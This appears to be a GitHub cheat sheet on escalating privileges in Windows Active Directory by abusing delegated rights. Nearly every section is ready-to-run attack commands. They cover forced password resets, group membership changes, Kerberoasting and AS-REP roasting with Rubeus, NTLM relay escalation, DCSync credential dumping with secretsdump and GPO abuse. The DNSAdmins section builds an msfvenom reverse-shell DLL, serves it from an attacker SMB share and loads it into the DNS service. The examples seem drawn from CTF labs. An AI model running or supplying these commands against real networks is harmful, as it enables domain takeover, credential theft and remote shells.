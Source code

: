 # Abusing-rights-in-a-Domain

Different domain users, have different rights. Some domain users have GenericAll, GenericWrite, WriteDacl, WriteOwner privilege on other domain users or groups. We can abuse these privileges and move further in domain.


### 1. Abusing GenericAll Privilege

eg: (john have GenericAll priv on Exchange Windows Permissions group)

We can add user in Exchange Windows Permissions group and then we have full control.

```markdown
net group "Exchange Windows Permissions" john /add /domain
```

GenericAll Privilege on adams user. 3-Ways.

1. We can change the adam password.
```markdown
net user adams N3wPassw0rd! /domain
```

2. We can set adams user SPN and do [Kerberoasting](https://k4sth4.github.io/Kerberos/).

Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)
```markdown
Set-DomainObject -Identity adams -Set @{serviceprincipalname="fake/NOTHING"}
.\Rubeus.exe kerberoast /user:jadams /nowrap
```

3. We can set adams account to [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).
```markdown
Set-DomainObject -Identity adams -XOR @{UserAccountControl=4194304}
.\Rubeus.exe asreproast /user:jadams /nowrap
```

### 2. Abusing GenericWrite Perm on a User
Here lily is the user on which we have generic write perm we can set this user to PreAuth and then by using [AS-REP Roasting](https://k4sth4.github.io/Kerberos/) we can get the user hash and crack it and login into system.
```markdown
Set-ADAccountControl -Identity lily -DoesNotRequirePreAuth $true
```
Now we can do [AS-REP Roasting](https://k4sth4.github.io/Kerberos/).


### 3. Abusing WriteDacl Priv on any Group
eg: claire has WriteDacl rights on the Backup_Admins group. We can add it to Backup_Admins group.
```markdown
net group backup_admins
net group backup_admins claire /add
```
NOTE: Open another shell if changes are not reflected.

### 4. Abusing WriteDacl Priv On Domain by grant yourself the DcSync privileges
dan (user) has WriteDacl Perm on DC.

using [Impacket](https://github.com/SecureAuthCorp/impacket) tool:
```markdown
ntlmrelayx.py -t ldap://10.129.95.210 --escalate-user dan
```
(10.129.95.210 = target IP)

nevigate to http://127.0.0.1  and enter the user (dan & pass) now wait till it ask for you to run secretsdump.py on creds

### 5. Abusing WriteOwner Privilege
We're tom user and getting ownership of claire and then change passwd of claire. Import [Powerview.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).
```markdown
Set-DomainObjectOwner -identity claire -OwnerIdentity tom
Add-DomainObjectAcl -TargetIdentity claire -PrincipalIdentity tom -Rights ResetPassword
$cred = ConvertTo-SecureString "qwer1234QWER!@#$" -AsPlainText -force
Set-DomainUserPassword -identity claire -accountpassword $cred
```

### 6. Abusing DNS Admin wrights
This way is just for CTFs, in real world this will gonna break the DNS service.

Step1. create a revshell via msfvenom
```markdown
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.x.x LPORT=4444 -f dll > shell.dll
```
Step2. set smbserver in the same dir where shell.dll
```markdown
impacket-smbserver -smb2support share .
```
Step3. exploitation on target machine (we don't need to upload shell.dll)
```markdown
dnscmd.exe /config /serverlevelplugindll \\10.10.x.x\share\shell.dll
sc.exe stop dns
sc.exe start dns
```
You will get a reverse shell.

### 7. Abusing ForceChange Password from linux os
login as support user and audit2020 is the user whose passwd gonna change.
```markdown
rpcclient -U support 10.129.1.243 
setuserinfo2 audit2020 23 'Passw0rd!' 
```


### 8. DcSync Attack
mrlky has Get-Changes privilege on the domain.
```markdown
secretsdump.py -just-dc mrlky:Football@10.10.10.103
```

### 9. Abuse GPO Policy 
upload [SharpGPOAbuse.exe](https://github.com/FSecureLABS/SharpGPOAbuse)
```markdown
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount hackzzdogs --GPOName "DCPolicy"
gpupdate /force
```
(hackzzdogs = current user name)

(DCPolicy = Group Policy Name you can find it on bloodhound)

Now we're in local administrator group.
```markdown
net loacalgroup administrators
```

